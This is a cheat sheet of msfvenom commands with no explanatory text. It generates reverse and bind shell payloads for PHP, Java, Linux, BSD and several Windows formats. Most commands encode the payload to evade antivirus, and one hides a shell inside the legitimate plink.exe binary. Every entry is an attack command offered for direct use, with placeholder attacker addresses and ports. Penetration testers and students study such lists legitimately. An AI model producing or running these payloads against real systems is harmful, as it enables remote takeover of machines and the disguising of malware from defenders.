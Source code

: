 ### PHP reverse shell 
msfvenom -p php/meterpreter/reverse_tcp LHOST=YOUR IP LPORT=PORT -f raw -o shell.php

### Java WAR reverse shell 
msfvenom -p java/shell_reverse_tcp LHOST=YOUR IP LPORT=PORT -f war -o shell.war

### Linux bind shell 
msfvenom -p linux/x86/shell_bind_tcp LPORT=PORT -f c -b "\x00\x0a\x0d\x20" -e x86/shikata_ga_nai

### Linux FreeBSD reverse shell 
msfvenom -p bsd/x64/shell_reverse_tcp LHOST=YOUR IP LPORT=PORT -f elf -o shell.elf

### Linux C reverse shell 
msfvenom  -p linux/x86/shell_reverse_tcp LHOST=YOUR IP LPORT=PORT -e x86/shikata_ga_nai -f c

### Windows non staged reverse shell 
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR IP LPORT=PORT -e x86/shikata_ga_nai -f exe -o non_staged.exe

### Windows Staged (Meterpreter) reverse shell 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR IP LPORT=PORT -e x86/shikata_ga_nai -f exe -o meterpreter.exe

### Windows Python reverse shell 
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR IP LPORT=PORT EXITFUNC=thread -f python -o shell.py

### Windows ASP reverse shell 
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR IP LPORT=PORT -f asp -e x86/shikata_ga_nai -o shell.asp

### Windows ASPX reverse shell
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=YOUR IP LPORT=PORT -e x86/shikata_ga_nai -o shell.aspx

### Windows JavaScript reverse shell with nops 
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR IP LPORT=PORT -f js_le -e generic/none -n 18

### Windows Powershell reverse shell 
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR IP LPORT=PORT -e x86/shikata_ga_nai -i 9 -f psh -o shell.ps1

### Windows reverse shell excluding bad characters 
msfvenom -p windows/shell_reverse_tcp -a x86 LHOST=YOUR IP LPORT=PORT EXITFUNC=thread -f c -b "\x00\x04" -e x86/shikata_ga_nai

### Windows x64 bit reverse shell 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR IP LPORT=PORT -f exe -o shell.exe

### Windows reverse shell embedded into plink 
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR IP LPORT=PORT -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe 
